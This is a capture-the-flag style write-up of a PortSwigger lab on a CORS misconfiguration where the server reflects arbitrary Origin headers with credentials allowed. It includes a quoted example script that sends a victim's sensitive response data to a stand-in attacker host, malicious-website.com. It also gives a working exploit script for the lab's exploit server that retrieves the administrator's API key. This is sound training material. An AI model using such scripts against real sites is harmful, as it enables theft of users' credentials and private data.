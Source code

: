 ## Lab Description :

## Overview :

#### Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

It then responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an **API key** or **CSRF token**, you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

## Solution :

### Analysis -

First let's login as wiener using the credentials given - `wiener:peter`


Once logged in , we can see that there is an email update functionality & the **API key of wiener.**

In the HTTP history tab, we can see that the `GET` request to `/accountDetails` contains the **ACAC=true** header in its response.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1a0532c0-a3a3-453b-8eee-94f4694af8b8)

**This meaans that if we can able to exploit CORS here then we can able to  get the session cookie, API key etc of the user.**

Note that there is no `Origin` header in the request that's why we don't see any `Access-Control-Allow-Origin` header too.

### Explloiting CORS misconfiguration -

If we try to provide `Origin: evil.com` , we can see that there is `Access-Control-Allow-Origin: evil.com` & `Access-Control-Allow-Credentials: true` in the response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/11dfe623-7b07-485c-9aab-3623aefe6b3d)


This means the server takes the Origin provided in the request and sends it back in the response with the header `Access-Control-Allow-Origin: <origin.com>`.

Go to exploit server and paste the following code.

> NOTE - Uri to provide is `/accountDetails`

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0aca000b03408aa480b9856d00e600f5.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};
</script>
```

Deliver exploit to Victim & View Access-log, there we can find the API key of administrator.

```json
/log?key={  "username": "administrator",  "email": "",  "apikey": "FTTGVC2HkWwpvvUW54D6cMl9hup8oypH"
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d3425134-996c-481b-bd8a-ba8d23d09c92)


Finally we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2c8adb12-7766-4883-9c84-fadd6030b615)






















